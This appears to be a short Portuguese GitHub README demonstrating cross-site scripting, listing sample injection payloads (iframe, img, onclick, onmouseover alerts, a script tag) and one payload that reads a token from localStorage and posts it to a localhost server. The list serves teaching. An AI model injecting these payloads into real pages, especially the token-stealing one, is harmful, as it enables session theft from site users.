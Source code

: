 # XSS-Exemplo
Exemplo de funmcionamento do ataque XSS

# Video explicando os conceitos

[![Watch the video](https://img.youtube.com/vi/HQUCYEr50wc/maxresdefault.jpg)](https://www.youtube.com/watch?v=HQUCYEr50wc)

# Iframe
`<iframe src="https://www.cristianoprogramador.com/">`

# Img
`<img src="1https://www.cristianoprogramador.com/img/profile.jpg">`

# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`
